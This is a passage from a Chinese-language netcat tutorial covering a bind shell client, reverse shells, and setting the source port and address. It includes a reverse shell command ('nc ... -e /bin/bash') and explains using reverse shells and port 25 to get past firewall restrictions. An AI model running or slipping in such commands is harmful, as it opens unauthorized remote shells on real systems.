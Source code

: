 ##### Client

```
$nc -n 192.168.1.1 20000
```

你会得到一个shell提示符在客户端

#### 9.反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

##### Server

```
$nc -l 20000
```

在客户端，简单地告诉netcat在连接完成后，执行shell。

##### Client

```
$nc 192.168.1.1 20000 -e /bin/bash
```

现在，什么是反向shell的特别之处呢
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为192.168.1.1，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

#### 10.指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

##### Server

```
$nc -l 20000
```

##### Client

```
$nc 192.168.1.1 20000 25
```

使用1024以内的端口需要root权限。
该命令将在客户端开启25端口用于通讯，否则将使用随机端口。

#### 11.指定源地址

假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。

##### Server

```
$nc -u -l 20000 < file.txt
```

##### Client
